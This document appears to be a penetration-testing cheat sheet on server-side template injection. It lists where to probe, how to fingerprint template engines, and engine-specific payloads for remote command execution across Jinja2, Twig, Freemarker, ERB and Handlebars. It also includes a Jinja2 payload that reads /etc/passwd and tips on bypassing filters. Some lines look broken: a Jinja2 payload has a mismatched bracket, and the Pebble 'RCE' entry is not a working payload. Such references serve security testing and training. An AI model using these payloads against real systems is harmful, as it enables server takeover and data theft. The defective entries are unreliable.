

# SSTI Testing Methodology

## Universal polyglot

```
${{<\%\[%'"}}%\\
```

## Testing Methodology

- [ ] **Detect SSTI** Use basic mathematical expressions (`{{7*7}}`, `${7*7}`, `@(7*7)`) to confirm template processing.
- [ ] **Fingerprint Engine** Apply type coercion tests (`{{7*'7'}}`) to identify the specific engine and underlying language.
- [ ] **Craft Engine-Specific Exploit** Use the appropriate RCE payload for the identified engine.
- [ ] **Handle Blind Scenarios** If output isn't visible, employ time-based or OOB techniques.
- [ ] **Bypass Filters** When basic payloads are blocked, use character encoding, alternative syntax, or creative exploitation techniques.

## Where to look for SSTI

If user input is shown in any of the following, test for SSTI

- [ ] PDF and document generators
- [ ] Email templates
- [ ] Error messages
- [ ] API response formatting
- [ ] Admin interfaces
  - [ ] Dashboard widget configs
  - [ ] Report builders
  - [ ] Notification template editors
  - [ ] Custom email/SMS template systems
- [ ] Logging systems that format log messages
- [ ] Chat or message systems
- [ ] Calendar event description
- [ ] Ticket or issue tracking system
- [ ] CRM custom field rendering

## Engine-Specific Payloads

### Jinja2 (Python — Flask, Django)

Detect:

```
{{7*7}}  →  49
{{config}}
```



RCE:

```
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
{{ ''.__class__.__mro__[1].__subclasses__() }}  → find subprocess.Popen index
{{ ''.__class__.__mro__[1]()[INDEX).communicate() }}
```

LFI

```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Twig (PHP — Symfony)

Detect:

```
{{7*7}}  →  49
{{7*'7'}}  →  49 (Twig converts string to int)
```

RCE:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
```

### Freemarker (Java — Spring)

Detect:

```
${7*7}  →  49
```

RCE:

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

### Pebble (Java)

Detect:

```
{{7*7}}  →  49
```

RCE:

```
{{bytes}}
```

### ERB (Ruby — Rails)

Detect:

```
<%= 7*7 %>  →  49
```

RCE:

```
<%= system('id') %>
<%= `id` %>
```

### Handlebars (Node.js)

Detect:

```
{{this}}
{{#each this}}{{@key}}={{this}}{{/each}}
```

RCE (requires prototype pollution or helper misconfiguration):

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## References

- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [HackTricks - SSTI](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
- [PortSwigger - SSTI](https://portswigger.net/web-security/server-side-template-injection)
